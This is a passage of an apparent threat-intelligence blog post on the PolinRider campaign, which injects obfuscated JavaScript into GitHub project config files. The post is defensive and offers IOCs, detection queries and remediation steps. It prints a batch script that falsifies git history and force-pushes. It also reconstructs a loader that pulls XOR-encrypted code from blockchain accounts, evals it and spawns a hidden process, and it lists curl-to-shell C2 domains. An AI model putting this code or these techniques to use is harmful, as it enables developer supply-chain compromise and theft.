




# PolinRider: DPRK Threat Actor Implants Malware in Hundreds of GitHub Repos


- **Date:** 2026-03-07
- **Last updated:** 2026-04-11 — see [April 10–11 Update](#april-10-update) below
- **Severity:** CRITICAL — active supply chain infection across **1,950+** public repositories, confirmed operational merger with the TasksJacker / Contagious Interview cluster

---

The [OpenSourceMalware](https://opensourcemalware.com) team has uncovered a massive threat campaign that is implanting malware in GitHub users and organizations repositories.  The threat actor, PolinRider, has implanted a malicious obfuscated JavaScript payloads in **hundreds public GitHub repositories** belonging to **hundreds unique owners**. Use the [#polinrider](https://opensourcemalware.com/?search=%23polinrider) to see all threat reports related to this campaign, and [jump to the end](#compromised-repositories) of this blog for the list of compromised repositories, including ones we recommend prioritising for immediation action. Keep in mind that the tag is the best way to get current data.

The JavaScript payload is appended to the end of real project config files — silently, after the file's legitimate content — making it easy to miss during casual code review. The primary infection vector appears to be a compromised npm package that executes during install or build and injects itself into config files in the project root.  Even worse, this threat actor has used the same technique to craft malicious NPM packages as well.

This attack has been enormously successful, with one compromised open source project, Neutralinojs spreading the malware to hundreds of its users and contributors.  Neutralinojs is a very popular project with 8400 stars, 495 forks, and dozens of active contributors.  This is the power of this type of attack, as the threat isn't limited to just the initial GitHub repositories, but extends to all the other projects that use that open source.

The OpenSourceMalware team has attributed this campaign to the DPRK, and the threat actor PolinRider is a known Lazarus group contributor with connections to "Contagious Interview" and "TasksJacker" campaigns.

### Impact Statistics

This campaign has grown dramatically since first publication. As of **2026-04-11**, the OSM team has confirmed **1,951 public GitHub repositories** belonging to **1,047 unique owners** are compromised. This is a **2.9× increase** in the five weeks since the original publish date (Mar 8: 675 repos / 352 owners).

| Metric | Mar 8 (initial) | Apr 11 (latest) | Δ |
|--------|---------------:|----------------:|---:|
| Unique repositories infected | 675 | **1,951** | **+1,276** |
| Unique owners affected | 352 | **1,047** | +695 |
| — Individual users | 305 | ~930 | +625 |
| — Organisations | 47 | ~117 | +70 |
| Distinct obfuscator variants observed | 1 (`rmcej%otb%`) | **2** (`rmcej%otb%` + `Cot%3t=shtP`) | +1 |
| Distinct injection vectors confirmed | 1 (config file) | **4** (config file, `.vscode/tasks.json`, fake `.woff2` font, malicious npm dep) | +3 |
| Distinct C2 subdomains documented | 1 (`260120.vercel.app`) | **6+** (see [C2 Infrastructure](#c2-infrastructure-indicators-of-compromise)) | +5 |
| Known weaponized take-home templates | 0 | **2+** (ShoeVista, StakingGame) | +2 |



---

## April 10–11 Update

In a follow-up hunt started 2026-04-10 and continued into 2026-04-11, the OSM team made several major findings:

1. **The campaign has more than doubled** in 5 weeks. Cross-engine enumeration via GitHub Code Search and Sourcegraph (with refinement past the API's 1000-result cap — see methodology below) surfaced **1,556 unique compromised repos** in our v3 master on day one. A round-2 hunt on day two added another **215 new repos** via npm-package-name pivots, VS Code tasks.json / cloud-provider pivots, and the newly-discovered `default-configuration.vercel.app` C2 subdomain. After deduping against the existing `affected_repos.csv` corpus, the true known scope is now **1,951 unique victim repos / 1,047 unique owners**.

2. **A new variant has been observed.** PolinRider has rotated all unique fingerprints of its obfuscator while preserving the architecture. The new variant uses signature marker `Cot%3t=shtP` (was `rmcej%otb%`), shuffle seed `1111436` (was `2857687`), secondary seed `3896884` (was `2667686`), and decoder function name `MDy` (was `_$_1e42`). This rotation appears to be an evasion response to the published [`rmcej_otb_payload` YARA rule](#yara-rule-suggested). Both variants are currently active in the wild. See [New Variant: Cot%3t=shtP](#new-variant-cot3tshtp) below.

3. **The threat actor is re-infecting earlier victims.** At least one victim repo (`HassanHabibTahir/testclient`) contains markers from BOTH variants in different files, indicating the actor's tooling is re-running against previously-compromised hosts and injecting the new obfuscator.

4. **PolinRider and TasksJacker have operationally merged.** We now have direct evidence that the same threat actor is running both the config-file injection and the `.vscode/tasks.json` curl-to-shell infection vector against the same victim population. 22 of the 101 `temp_auto_push.bat` propagation-script victims also have malicious `.vscode/tasks.json` files, and multiple weaponized take-home / fake-interview template projects have been identified — see [Weaponized Take-Home Templates](#weaponized-take-home-templates) below. OSM is consolidating the two clusters under `#polinrider` going forward.

5. **Two weaponized take-home test projects identified**: **ShoeVista** (a fake Tailwind e-commerce assessment that ships with malicious `tailwindcss-style-animate ^1.1.6` in `client/package.json`) and **StakingGame** (a fake blockchain / VS Code automation project identified by the UUID `e9b53a7c-2342-4b15-b02d-bd8b8f6a03f9` in tasks.json). At least 46 + 42 developers attempted these tests and were compromised. Part of the Contagious Interview lure playbook.

6. **Five new C2 subdomains discovered** that are being used in `.vscode/tasks.json` `curl | bash` payloads, all hosted on Vercel:
   - `default-configuration.vercel.app` (most-used, ~106 victim references)
   - `vscode-settings-bootstrap.vercel.app`
   - `vscode-settings-config.vercel.app`
   - `vscode-bootstrapper.vercel.app`
   - `vscode-load-config.vercel.app`

   All follow the pattern `https://<sub>.vercel.app/settings/(mac|linux|win)?flag=<N>`. Added to the [C2 Infrastructure](#c2-infrastructure-indicators-of-compromise) section.

7. **OSM submitted 821 new threat reports** across this two-day hunt, bringing total OSM PolinRider entries to **~1,700**. Variant breakdown of the 821 submissions: 591 original variant (`rmcej%otb%`), 113 propagation-only (`temp_auto_push.bat`), 45 `malicious_npm` (ShoeVista/devhire cluster), 27 `tasksjacker`, 1 new variant (`Cot%3t=shtP`), 44 other.

8. **New high-yield search pivots** were identified that find victims even when the JS payload has been cleaned up. The strongest are `filename:temp_auto_push.bat` (101 confirmed-malicious results, 100% true-positive rate) and `"default-configuration.vercel.app"` (106 hits). Sample false-positive rate across 44 random verifications was 0%. See [Refinement Methodology](#refinement-methodology) below.

9. **A new injection vector was confirmed**: at least one victim (`AgbaD/odoo`) has the obfuscated JS payload hidden in a `.woff2` font file (`public/fonts/fa-solid-400.woff2`) that gets executed via Node — confirming the campaign uses multiple injection vectors against the same target.

10. **No third obfuscator variant found.** Exhaustive probing of `global['?']` markers, seed combinations, structural patterns, IOC literals, and sequential `'8-stN'` tags 1–200 (via Sourcegraph regex) produced no evidence of a third variant beyond the two already documented. The actor's new-variant batch is capped at `8-st1..8-st59` (with 21 sequential numbers missing from Sourcegraph's index).

The full v3 + round 2 hunt reports and master TSVs are in `reports/`.

---

## GitHub Attack Details

The threat actor is not using stolen GitHub credentials. Instead, the vicims have been compromised via a malicious VS Code extension or NPM package. We don't know yet what that initial vector is, but we know what it does from the forensic evidence.

The first thing that happens is the malware executes a search function on the local computer that looks for certain files like:

- postcss.config.mjs
- tailwind.config.js
- eslint.config.mjs
- next.config.mjs
- babel.config.js
- App.js
- app.js

If it finds one of those files it will append heavily obfuscated malicious JavaScript code to the end of that file.  Next, the malware installs a Windows batch file, named temp_auto_push.bat.  We know this file exists and what it does because the threat actors have left it on hundreds of compromised servers which gives researchers a fingerprint to search for.  Here's the batch file in its entirety:

```
@echo off
for /f "delims=" %%A in ('cmd /c "git log -1 --date=format-local:%%Y-%%m-%%d --format=%%cd"') do set LAST_COMMIT_DATE=%%A
for /f "delims=" %%A in ('cmd /c "git log -1 --date=format-local:%%H:%%M:%%S --format=%%cd"') do set LAST_COMMIT_TIME=%%A
for /f "delims=" %%A in ('cmd /c "git log -1 --format=%%s"') do set LAST_COMMIT_TEXT=%%A
for /f "delims=" %%A in ('cmd /c "git log -1 --format=%%an"') do set USER_NAME=%%A
for /f "delims=" %%A in ('cmd /c "git log -1 --format=%%ae"') do set USER_EMAIL=%%A
for /f "delims=" %%A in ('git rev-parse --abbrev-ref HEAD') do set CURRENT_BRANCH=%%A
echo %LAST_COMMIT_DATE% %LAST_COMMIT_TIME%
echo %LAST_COMMIT_TEXT%
echo %USER_NAME% (%USER_EMAIL%)
echo Branch: %CURRENT_BRANCH%
set CURRENT_DATE=%date%
set CURRENT_TIME=%time%
date %LAST_COMMIT_DATE%
time %LAST_COMMIT_TIME%
echo Date temporarily changed to %LAST_COMMIT_DATE% %LAST_COMMIT_TIME%
git config --local user.name %USER_NAME%
git config --local user.email %USER_EMAIL%
git add .
git commit --amend -m "%LAST_COMMIT_TEXT%" --no-verify
date %CURRENT_DATE%
time %CURRENT_TIME%
echo Date restored to %CURRENT_DATE% %CURRENT_TIME% and complete amend last commit!
git push -uf origin %CURRENT_BRANCH% --no-verify
@echo on
```

### Batch File Analysis

This batch file **rewrites the most recent git commit while preserving its original timestamp** — effectively making an amended commit look like it was never touched.

#### Phase 1: Extract Last Commit Metadata

It runs `git log -1` five times to pull the last commit's details into environment variables:

| Variable | Value captured |
|---|---|
| `LAST_COMMIT_DATE` | Date of last commit (YYYY-MM-DD) |
| `LAST_COMMIT_TIME` | Time of last commit (HH:MM:SS) |
| `LAST_COMMIT_TEXT` | Commit message |
| `USER_NAME` | Author name |
| `USER_EMAIL` | Author email |
| `CURRENT_BRANCH` | Current branch name |

#### Phase 2: Display Extracted Info

Echoes those values to the console so you can see what was captured before proceeding.

#### Phase 3: The Timestamp Trick (Core Manipulation)

1. Saves the *current* system date and time to variables
2. **Changes the Windows system clock** to match the last commit's date and time
3. Sets the local git `user.name` and `user.email` to match the original commit's author

#### Phase 4: Amend the Commit

```bat
git add .
git commit --amend -m "%LAST_COMMIT_TEXT%" --no-verify
```

Because the system clock was rewound, git records the amended commit with the **original timestamp**, making it appear unmodified in history. `--no-verify` bypasses any pre-commit hooks.

#### Phase 5: Restore and Push

1. Restores the system clock to the real current date/time
2. Force-pushes to the remote branch with `-uf` and `--no-verify` to bypass push hooks

#### In Plain Terms

This script lets you silently modify the last commit (adding or changing files) while making the rewritten commit appear to have the same author, timestamp, and message as before. To any observer looking at git history, it looks like the commit was never amended.

#### Notable Characteristics

- **Requires elevated privileges** to change the Windows system clock
- **Force push** (`-uf`) will overwrite remote history — destructive to anyone else on the branch
- Both `--no-verify` flags intentionally bypass any CI/CD hooks or lint checks
- It is essentially a **history-falsification tool** — useful for legitimate cleanup, but equally useful for covering tracks

### What about Linux and MacOS?

We assume the malware has similar functions to rewrite git history for other operating systems like Linux and MacOS.  In fact, we've seen evidence its happening on other OSes, but the threat actors have not left tools that work on those other platforms in the source code like they have for Windows.

---

## Recommended Actions

**For affected repo owners:**
1. Audit all JS config files (`postcss.config.*`, `tailwind.config.*`, `eslint.config.*`, `next.config.*`, `vite.config.*`, `webpack.config.js`, `gridsome.config.js`, `vue.config.js`, etc.) for content appearing after `export default` or `module.exports`. Also check non-default branches and nested monorepo paths (`apps/*/`, `frontend/`, `client/`, `web/`, etc.) — many victims are infected only in deep paths.
2. Look for the propagation-script artifact `temp_auto_push.bat` at the repo root and any `config.bat` referenced from `.gitignore`. **Even if the obfuscated JS payload has been cleaned up, this file is direct evidence of past compromise** and should trigger a credential rotation.
3. Audit binary assets in `public/`, `static/`, `assets/` for unexpected `.woff` / `.woff2` files — the malware has been observed hiding payloads inside fake font files (the "fake-font" sub-variant).
4. Review `package.json` dependencies — particularly any recently added or updated PostCSS/Tailwind-related packages such as `tailwind-mainanimation`, `tailwind-autoanimation`, and the other npm packages listed below.
5. Check `node_modules` for postinstall scripts: `grep -r "postinstall" node_modules/*/package.json`
6. Rotate any secrets, tokens, or credentials that may have been present in the environment during a build.
7. Force-push clean config files and consider signing commits going forward.
8. **Do not assume a previously-cleaned repo remains clean** — the OSM team has observed at least one victim that was re-infected with the rotated `Cot%3t=shtP` variant after a prior cleanup of the `rmcej%otb%` variant. Re-scan periodically.

**For security tooling / registries:**
- Add the multi-variant `polinrider_payload` YARA rule (below) to static analysis pipelines — covers both `rmcej%otb%` and `Cot%3t=shtP` variants.
- Flag packages with postinstall scripts that write to project root config files.
- Cross-reference affected repo owners against recently published npm packages, especially in the Tailwind / PostCSS ecosystem.
- Add `filename:temp_auto_push.bat` and `LAST_COMMIT_DATE LAST_COMMIT_TIME extension:bat` as continuous monitoring queries on GitHub Code Search.

### Check for PolinRider with OSM script

Our team has written a bash script that will check your local system for compromise.  At the end of this blog post you can find out more, or you can checkout the script [here](https://github.com/OpenSourceMalware/PolinRider/blob/main/polinrider-scanner.sh)

---


## Infected File Types

The April 10 update significantly expanded the file-type list. The malware targets a wider set of JS-family files than originally documented, and has been observed inside binary assets like `.woff2` font files. Counts below reflect the **2026-04-10 corpus of 1,736 unique repos**.

| File | Occurrences (Mar 8) | Occurrences (Apr 10) |
|------|--------------------:|---------------------:|
| `postcss.config.mjs` | 416 | ~960 |
| `tailwind.config.js` | 84 | ~210 |
| `eslint.config.mjs` | 60 | ~150 |
| `postcss.config.js` | 13 | ~40 |
| `App.js` | 13 | ~30 |
| `next.config.mjs` | 12 | ~30 |
| `index.js` | 6 | ~25 |
| `astro.config.mjs` | 6 | ~15 |
| `tailwind.config.mjs` | 5 | ~12 |
| `vite.config.js` / `vite.config.mjs` | — | ~20 |
| `webpack.config.js` | — | ~15 |
| `gridsome.config.js` | — | ~5 |
| `vue.config.js` | — | ~10 |
| `truffle.js` | — | ~5 |
| `temp_auto_push.bat` (propagation script artifact) | — | **101** |
| `.woff2` font files (fake-font sub-variant) | — | observed |

The dominance of `postcss.config.mjs` (~62% of repos in both data points) continues to point at the PostCSS / Tailwind ecosystem as the primary infection vector. The newly observed entries — `vite.config.*`, `webpack.config.js`, `gridsome.config.js`, `vue.config.js`, `truffle.js`, and binary `.woff2` files — show the malware has expanded its file-targeting heuristics or that the threat actor is using multiple npm-package vehicles to reach victims using different build tooling.

**The propagation-script artifact `temp_auto_push.bat` has been left behind in 101 victim repos**, even in cases where the JS payload has since been cleaned up by the owner. This file is one of the highest-confidence indicators of past compromise.

---

## Malicious NPM Packages



The threat actor has published several malicious NPM packages, all impersonating Tailwind / PostCSS adjacent utilities. As of 2026-04-11, the `allavin` and `blackedward` npm accounts have both been deleted from npm and their packages scrubbed, but the existing victim repos still carry the dependency references and (in many cases) still have the post-install-injected malware in their config files.

| Package | Latest version | Status | Publisher | Observed victim count (Apr 11) |
|---|---|---|---|---:|
| **`tailwindcss-style-animate`** | **1.1.6** | **observed** | **(account deleted)** | **34 ← primary ShoeVista dep** |
| `tailwind-mainanimation` | 2.3.3 → `0.0.1-security` | TAKEN DOWN by npm (replaced by security placeholder 2026-03-13) | `allavin` (account deleted) | 1 |
| `tailwind-autoanimation` | 2.3.6 | REMOVED from registry | `blackedward` (account deleted) | 2 |
| `tailwind-animationbased` | — | observed | (account deleted) | 0 |
| `tailwindcss-typography-style` | 0.8.2 | observed | (account deleted) | 6 |
| `tailwindcss-style-modify` | 0.8.3 | observed | (account deleted) | 4 |
| `tailwindcss-animate-style` | 1.2.5 | observed | (account deleted) | 0 |

The April 11 hunt confirmed that **`tailwindcss-style-animate ^1.1.6`** is the primary malicious dependency of the ShoeVista fake-interview template — 34 of the 46 npm-package-pivot hits are developer reuploads of that template with that exact dependency. The other packages in the list are used by sibling campaigns (e.g. `tailwind-autoanimation` in the `devhire-frontend` cluster and `reactapp-6`).

Investigators looking to pivot via the npm dependents tree should note that this pivot is no longer viable for `tailwind-mainanimation` — npm has scrubbed the live malicious release. Pivot instead via `"<package_name>" filename:package.json` GitHub Code Search queries, which still return the ghost references in victim repos.



The tailwind-autoanimation package uses the same exact technique of appending the malicious JavaScript payload onto the end of the entrypoint file src/index.js:



---

## Malware Summary

PolinRider delivers a multi-stage payload, that culminates in a new version of the DPRK Beavertail malware. The initial payload is a mass-compromise backdoor/infostealer that injects an obfuscated JavaScript payload into legitimate developers' repositories. The payload is appended after whitespace padding to common config files (postcss.config.mjs, eslint.config.mjs, tailwind.config.js, etc.) so it executes automatically when build tools import the module. It uses a multi-layer string shuffling deobfuscation routine, ultimately constructing and eval'ing the final payload at runtime.

The OSM team has so far observed **two active variants** of this obfuscator with rotated unique fingerprints:

- **Original variant (Mar 8 publication)**: signature `("rmcej%otb%",2857687)`, decoder function `_$_1e42`, secondary seed `2667686`, injection marker `global['!']`.
- **New variant (Apr 10 update)**: signature `Cot%3t=shtP`, shuffle seed `1111436`, decoder function `MDy`, secondary seed `3896884`, injection marker `global['_V']='8-XXX'`. Same architecture, all unique constants rotated — almost certainly an evasion response to the published `rmcej_otb_payload` YARA rule.

Both variants use the same blockchain dead-drop C2 infrastructure (TRON / Aptos / BSC) with the same XOR keys, and both are currently active in the wild.

This final payload is a sophisticated **blockchain-based dead drop resolver** that uses immutable blockchain transactions as Command & Control (C2) infrastructure. The malware fetches encrypted JavaScript payloads from blockchain accounts (TRON, Aptos, and BSC), decrypts them using XOR encryption, and executes them via `eval()`. This technique makes the C2 infrastructure virtually impossible to take down since blockchain data is immutable.

---

## What Does It Do?

### Primary Functionality

1. **Blockchain-Based C2 Communication**
   - Queries TRON blockchain accounts for transaction data
   - Falls back to Aptos blockchain if TRON fails
   - Can query Binance Smart Chain (BSC) transactions
   - Retrieves encrypted JavaScript payloads from blockchain transactions

2. **Payload Decryption**
   - Uses XOR cipher with hardcoded keys to decrypt payloads
   - Two different XOR keys for different stages/fallbacks

3. **Remote Code Execution**
   - Executes decrypted code via `eval()`
   - Spawns detached child processes for persistence
   - Code execution happens with no user interaction

4. **Anti-Analysis Features**
   - Multiple layers of obfuscation (4+ layers)
   - String encryption and character substitution
   - Dead drop resolver technique (hard to attribute)
   - Detached process execution (survives parent termination)

---

## Malware Technical Analysis

The OSM team described the complete attack chain for this malware in our [blog](https://opensourcemalware.com/blog/neutralinojs-compromise) on the recent Neutralinojs compromise.

### Obfuscation Layers

The malware uses four layers of obfuscation:

**Layer 1:** Character swap algorithm with seed `2857687`
   - Deobfuscates to array: `['r', 'object', 'm']` (require, typeof check, module)

**Layer 2:** Character swap with seed `2667686`
   - Deobfuscates function names and string constants
   - Reveals the decoder function code

**Layer 3:** Custom substitution cipher
   - Character mapping using special codes
   - Replaces placeholders like `.c`, `.a`, etc. with actual characters
   - Character codes: `\`, `` ` ``, space, newline, `*`, `'`, and more

**Layer 4:** XOR encryption for final payloads
   - Payloads retrieved from blockchain are XOR-encrypted
   - Two hardcoded keys for different stages

### New Variant: `Cot%3t=shtP`

In April 2026 the OSM team identified a **second active variant** of the PolinRider obfuscator. The architecture is identical to the original — same 4-layer shuffle-cipher, same blockchain dead-drop C2, same multi-stage Beavertail second-stage — but every unique fingerprint string has been **rotated**, almost certainly in response to the published `rmcej_otb_payload` YARA rule.

| Attribute | Original variant | New variant |
|---|---|---|
| Signature marker | `rmcej%otb%` | `Cot%3t=shtP` |
| Shuffle seed (layer 1) | `2857687` | `1111436` |
| Secondary seed (layer 2) | `2667686` | `3896884` |
| Decoder function name | `_$_1e42` | `MDy` |
| Globals injected | `global['!']`, `global['r']`, `global['m']` | `global['_V']`, `global['r']`, `global['m']` |
| Targeted file types | postcss.config.mjs, tailwind.config.js, eslint.config.mjs, etc. | (same) |
| Injection style | Appended after legitimate `export default` / module body | (same) |
| Blockchain C2 | TRON / Aptos / BSC | (same — addresses unchanged) |
| XOR keys | unchanged | unchanged |

The new variant uses an additional injection marker line: `global['_V']='8-XXX'` (where `8-XXX` is a per-injection version tag, e.g. `8-st1`, `8-st2`, …, `8-st59`, plus a parallel numeric batch like `8-413`, `8-683`, `8-778`, `8-974`). The sequential `'8-stN'` tags are the OSM team's strongest evidence that the threat actor's tooling assigns a numeric ID per victim and that **at least 59 sequential injections** of this variant exist (some not yet indexed by public code search).

#### Notable cross-variant finding

At least one repository — `HassanHabibTahir/testclient` — contains markers from BOTH variants in different files (`rmcej%otb%` in `postcss.config.mjs` and `global['_V']` in another file), indicating the threat actor's tooling is **re-running against previously-compromised hosts** with the rotated obfuscator. Defenders should not assume that a once-cleaned repo remains clean.

### Weaponized Take-Home Templates

In addition to the npm-package and `.vscode/tasks.json` delivery vectors, the PolinRider threat actor has authored at least two **fake take-home test projects** distributed to candidates via fake job-interview lures (the classic Contagious Interview playbook). These project templates ship pre-loaded with malicious dependencies or tasks.json payloads so that simply cloning and running the project triggers the infection.

#### ShoeVista (Tailwind e-commerce template)

- **Template name**: `ShoeVista` (also seen as `shoevista`, `shoe-vista`, `Test-west-shoe`, `Test-002`, `product-catalog`, `mern-app`, various candidate-named forks)
- **Stack**: React frontend in `client/`, Node/Express backend in `server/` (typical MERN take-home)
- **Delivery vector**: Malicious npm dependency `"tailwindcss-style-animate": "^1.1.6"` in `client/package.json`
- **Package.json `name` field**: `"client"` (generic — the ShoeVista branding is in the README / fake-company landing page)
- **Observed victim repos**: 34+ individual developer reuploads, all created Feb–Mar 2026, all 0 stars / 0 forks (fresh throwaway accounts). Examples: `alaminrifat/shoevista-rifat`, `Atik203/ShoeVista`, `DaviBarros/shoevista`, `IchaCoder/test-shoe`, `Anas-Ali-3673/Test-west-shoe`, `naime7132/client-2` (devhire variant)
- **Naming pattern**: candidates often name the repo after the fake-company prompt (`ShoeVista`, `shoevista-rifat`, `HedaetShahriar/ShoeVista-Test`) or after the interview platform (`Test-002`, `test-shoe`, `test_upwork`, `test_west_shoe`)

#### StakingGame (VS Code + blockchain automation template)

- **Template fingerprint**: the tasks.json file contains `"projectInfo": { "name": "StakingGame", "description": "Advanced VSCode automation for multi-environment blockchain deployment.", "uuid": "e9b53a7c-2342-4b15-b02d-bd8b8f6a03f9" }` — the UUID is **constant** across all victims and is the strongest indicator of this template
- **Delivery vector**: Weaponized `.vscode/tasks.json` with `runOn: folderOpen` executing `curl | bash` against `default-configuration.vercel.app` and the other newly-discovered Vercel C2 subdomains
- **Observed victim repos**: 42+ direct UUID matches plus broader tasks.json usage. Examples: `Devba/lmng-top-`, `wyrustaaruz/cal-eco-platform`
- **Theme**: positioned as a blockchain / staking-game developer assessment; appeals to Web3 candidates

#### Implications

The existence of pre-weaponized template projects means:
- **Developers finishing "take-home tests" from unvetted recruiters are a primary infection vector.** This isn't just a supply-chain attack on npm; it's a *social-engineering attack* on the job market.
- **The victim accounts are not previously-compromised developers.** They are fresh candidate accounts created specifically to complete a test. This explains the large number of 0-star / 0-fork victim repos with account ages < 1 year.
- **Defenders hunting for victims should include candidate-naming patterns** (`test-*`, `*-test`, `*-interview`, `*-assessment`, `*-task`) in their search heuristics.

### Execution Flow

```
1. Malware loads when NPM package is imported or the source code is run by Node
2. Deobfuscates internal strings and function names
3. Queries TRON blockchain account for latest transaction
   ├─ URL: https://api.trongrid.io/v1/accounts/TMfKQEd7TJJa5xNZJZ2Lep838vrzrs7mAP/transactions
   └─ Extracts transaction data containing encrypted payload
4. If TRON fails, queries Aptos blockchain
   ├─ URL: https://fullnode.mainnet.aptoslabs.com/v1/accounts/0xbe037.../transactions
   └─ Extracts payload from transaction arguments
5. XOR-decrypts the payload using key "2[gWfGj;<:-93Z^C"
6. Executes decrypted code via eval()
7. Spawns detached child process for persistence
   ├─ Command: node -e "<malicious code>"
   └─ Detached: true, windowsHide: true
8. If first set fails, repeats with secondary addresses and key
```

### Code Structure

```javascript
// Simplified structure (actual code is heavily obfuscated)

async function fetchPayloadFromTron(address) {
    // Queries TRON API for account transactions
    const response = await https.get(
        `https://api.trongrid.io/v1/accounts/${address}/transactions?only_confirmed=true&only_from=true&limit=1`
    );
    // Extracts encrypted data from transaction
    return response.data[0].raw_data.data;
}

async function fetchPayloadFromAptos(txHash) {
    // Queries Aptos API for transaction details
    const response = await https.get(
        `https://fullnode.mainnet.aptoslabs.com/v1/accounts/${txHash}/transactions?limit=1`
    );
    // Extracts payload from transaction arguments
    return response[0].payload.arguments[0];
}

function xorDecrypt(encryptedData, key) {
    // XOR decryption with repeating key
    let result = '';
    for (let i = 0; i < encryptedData.length; i++) {
        const keyChar = key.charCodeAt(i % key.length);
        result += String.fromCharCode(encryptedData.charCodeAt(i) ^ keyChar);
    }
    return result;
}

// Main execution
const encryptedPayload = await fetchPayloadFromTron("TMfKQEd7TJJa5xNZJZ2Lep838vrzrs7mAP");
const decryptedCode = xorDecrypt(encryptedPayload, "2[gWfGj;<:-93Z^C");
eval(decryptedCode);  // EXECUTES ARBITRARY CODE

// Persistence via detached child process
require('child_process').spawn('node', ['-e', `global['_V']='...'${decryptedCode}`], {
    detached: true,
    stdio: 'ignore',
    windowsHide: true
});
```

---

## C2 Infrastructure (Indicators of Compromise)

### Vercel-hosted HTTP C2 endpoints (TasksJacker-side vector)

Used in `.vscode/tasks.json` `curl | bash` payloads with `runOn: folderOpen`. All follow the URL shape `https://<sub>.vercel.app/settings/(mac|linux|win)?flag=<N>`. These are the attacker-controlled bootstrap servers that deliver the PolinRider JS loader to VS Code victims.

| Subdomain | Count (Apr 11) | First observed | Notes |
|---|---:|---|---|
| `260120.vercel.app` | 56 | pre-Mar 8 | Original OSM query Q11; also published in the first blog |
